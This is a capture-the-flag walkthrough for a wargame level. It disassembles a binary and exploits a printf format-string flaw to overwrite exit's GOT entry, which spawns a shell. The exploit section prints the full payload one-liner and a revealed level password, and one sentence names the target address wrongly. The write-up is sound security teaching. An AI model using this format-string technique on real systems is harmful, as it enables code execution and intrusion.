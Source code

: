 # level5

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Once again, `main` calls a function `n` which declares a buffer, use `fgets` to feed it, then print it with `printf`.

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

Thanks to `objdump`, we find out another interesting function which is not called, `o`.

```gdb
gdb-peda$ disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0   ; push address 0x80485f0 to stack (contains "/bin/sh")
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

We easily understand that we must find a way to call the function `o` that will spawn a shell thanks to `system`.

We notice `<exit@plt>` in `n` and `<_exit@plt>` in `o`. It puts the chip in our ear: we could use the _GOT_ (Global Offset Table). When the program runs for the first time

```console
level5@RainFall:~$ objdump -TR level5

level5:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*   00000000  GLIBC_2.0   printf
00000000      DF *UND*   00000000  GLIBC_2.0   _exit
00000000      DF *UND*   00000000  GLIBC_2.0   fgets
00000000      DF *UND*   00000000  GLIBC_2.0   system
00000000  w   D  *UND*   00000000              __gmon_start__
00000000      DF *UND*   00000000  GLIBC_2.0   exit
00000000      DF *UND*   00000000  GLIBC_2.0   __libc_start_main
080485ec g    DO .rodata 00000004  Base    _IO_stdin_used
08049848 g    DO .bss    00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

The above list of dynamic relocation entries shows us the adresses where the program will jump when one of theses functions (included from shared libraries) are called.

So, using the same `printf` vulnerability as in the previous level, we will overwrite the address pointed by `exit` from the GOT with the address of the function `o` (0x080484a4).

## Exploit

Once again, the field width modifier of `printf` will help us to write the value we want. But this value is so high (0x080484a4 => 134 513 828 in decimal) that trying to use it as such for the padding leads us to a long waiting (for the printf writing) and no result.

Looking for a way to write large values with the `printf` format string vulnerability, we find that we can split the writing process by using the type conversion specifiers. For our case, halving the number of bytes that we write will do the trick.

Knowing that we want to write the value 080484a4 to the address 0x080484a4, we will proceed as follow :
- Split the value in two parts for the padding (0804 and 84a4 => 2052 and 33956 in decimal).
- Start the string with the target address + 2, then the target address itself. (the reverse order is due to the endianness).
- Use both type conversion specifier and argument reference to write two bytes twice.

We first dump the stack with some `%x` to spot which argument (the 4th here) corresponds to the beginning of our string on the stack (see previous level). Let's describe how we format the final string :
- First, put the two target adresses : "\x3a\x98\x04\x08\x38\x98\x04\x08"
- Then, we set the padding to write the value 2052 (0804). Do not forget to subtract 8 (from the addresses printed before) : "%2044x"
- Write a short integer (2-byte long) to the first address we have provided : "%4$hn"
- Set the padding to reach the second value to write (33956). Subtract the number of bytes written so far (2052) : "%31904x"
- Finally, write the second part of the value to the two bytes corresponding to the target address : "%5$hn"

Everything is set now, let's do it !

```console
level5@RainFall:~$ python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/level5
level5@RainFall:~$ cat /tmp/level5 - | ./level5
...
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```